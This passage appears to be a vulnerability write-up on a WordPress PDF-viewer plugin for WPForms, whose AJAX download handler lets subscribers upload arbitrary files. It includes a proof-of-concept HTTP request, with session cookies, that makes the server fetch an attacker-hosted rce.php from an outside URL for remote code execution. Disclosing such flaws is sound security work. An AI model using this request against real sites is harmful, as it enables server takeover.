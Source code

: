 This means:

* `wp_ajax_` requests require the user to be logged in (at least a `Subscriber`) to be accepted.
* `epdf_wf_download_pdf_media` is the action passed as a parameter.

When a logged-in user sends a request to the `/wp-admin/admin-ajax.php` endpoint with `action=epdf_wf_download_pdf_media`, `ajax_handler_download_pdf_media()` is called to handle the request.

### Flow

{{< mermaid >}}
graph TD
A["Subscriber POST -> /wp-admin/admin-ajax.php?action=epdf_wf_download_pdf_media&url=..."] --> B["ajax_handler_download_pdf_media()"]
B --> C["check_ajax_referer('epdf_wf_download_pdf_media')"]
C --> D["download_url($url) -> $tmp_file (temporary file)"]
D --> E{"is_wp_error($tmp_file) ?"}
E -- "yes" --> F["wp_send_json_error() -> STOP"]
E -- "no" -->  K["Uploaded file accessible → potential RCE"]
{{< /mermaid >}}

## Exploit

### Proof of Concept (PoC)

1. Visit the page containing the form created by **WPForms** using the **PDF Viewer**
2. Retrieve the nonce
3. Create a `.php` file containing RCE code and host it on the internet
4. Send a POST request with the `url` pointing to the hosted file

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=sub%7C1762165151%7C5VGNGPhUPc74oSqabIRMtpA8jrLrn2JYdg6Lc4fqU8I%7C69db0f51f219492ec3f150bb86bc1364f7cd33442587ddf3f1bf334e4cdec409; wp-settings-time-2=1761725656; wp-settings-4=libraryContent%3Dbrowse%26uploader%3D1%26mfold%3Do; wp-settings-time-4=1761637043; wp-settings-2=editor%3Dtinymce%26libraryContent%3Dbrowse; wp-settings-time-3=1761711790; wp-settings-3=libraryContent%3Dbrowse; _lscache_vary=fff4fa950d2b9daa95c3289bb2a7040a; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=sub%7C1762165151%7C5VGNGPhUPc74oSqabIRMtpA8jrLrn2JYdg6Lc4fqU8I%7Ca7cb9996e74be71e18c68f339c0ad07a43687c7eb701f89fe90374cc2a783131; wp-settings-time-5=1761992371
...

_ajax_nonce=ea2ccf0ccd&action=epdf_wf_download_pdf_media&url=https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php
```

5. Access the uploaded file and achieve RCE
